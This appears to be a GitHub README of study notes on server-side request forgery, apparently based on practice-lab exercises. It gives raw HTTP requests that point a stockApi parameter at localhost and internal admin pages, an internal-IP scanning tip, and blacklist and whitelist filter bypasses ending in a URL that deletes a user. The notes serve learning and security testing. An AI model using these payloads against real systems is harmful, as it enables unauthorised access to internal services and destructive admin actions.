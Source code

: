 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"

#### SSRF attacks against other back-end systems
Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture.
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://IP/admin
**To find the correct IP octate try passing it to intruder and then add the payload to the required octate(192.168.0.1 here .1) change the payload type to Numbers 1-255.**
````
#### SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.
example:-
Example from the line13 try changing the stockapi to http://127.1/admin and if that didnt work try using the Double-URL encoding for a in admin. 

#### SSRF with whitelist-based input filters
````
1.Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.

2.Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, 
extracting the hostname, and validating it against a whitelist.

3.Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, 
indicating that the URL parser supports embedded credentials.

4.Append a # to the username and observe that the URL is now rejected.

5.Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, 
indicating that the server may have attempted to connect to "username".

6.Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos 
to access the admin interface and delete the target user.
````









